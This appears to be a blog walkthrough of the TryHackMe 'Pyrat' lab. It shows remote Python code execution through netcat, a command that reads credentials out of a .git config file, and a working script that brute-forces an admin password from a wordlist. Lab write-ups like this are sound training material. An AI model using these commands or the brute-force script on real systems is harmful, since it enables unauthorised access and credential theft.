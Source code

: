 ```yaml
---
layout: post
title: "🎮 Walk-through  → THM Pytrat"
permalink: /blog/walk-through_thm_pyrat/
---
```


# 🎮 Walk-through → TryHackMe Pyrat

### Description

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

# Nmap port scan

Screenshot:

![image](/assets/images/thm/pyrat/1.png)

Port ssh (22) and Hppt (8000) is open.
Screenshot:

# Check for the http port information.

![image](/assets/images/thm/pyrat/2.png)

Basic connection ok. lets connect to port 8000 using netcat. Try to run hello world python syntax as description says there are potential python code execution vulnerability.
Screenshot:
![image](/assets/images/thm/pyrat/3.png)

We can execute python codes here.

Next I will use python code execution payload further. Try to check for incomming mails.
Screenshot:
![image](/assets/images/thm/pyrat/4.png)

May be there is something for me in `think`. Next try to read this mail.

Screenshot:
![image](/assets/images/thm/pyrat/5.png)

search for git folders.

```python
import os; print([r for r, d, ds in os.walk('/') if ".git" in d])
```

Screenshot:
![image](/assets/images/thm/pyrat/6.png)

Check git config.

![image](/assets/images/thm/pyrat/7.png)

We got username and password here. Let's try to ssh using this credential.

We have successfully loged in and in the home directory there is an `users.txt` file contains our first flag.

### Root

![image](/assets/images/thm/pyrat/8.png)

Python script to find admin password.

```python=
import socket


TARGET_IP = '10.10.118.253'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()

            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")

            s.close()
        except Exception as e:
            print("Error: %s " %e)

```

Now successfully got the admin password.
![image](/assets/images/thm/pyrat/9.png)

## Useful commands.

1. `nmap -sS 10.10.133.11`
2. `import os; print([r for r, d, ds in os.walk('/') if ".git" in d])`
3. `print(open("/opt/dev/.git/config").read())`
4. `ssh think@10.10.118.253`
5. `nc 10.10.118.253 8000`

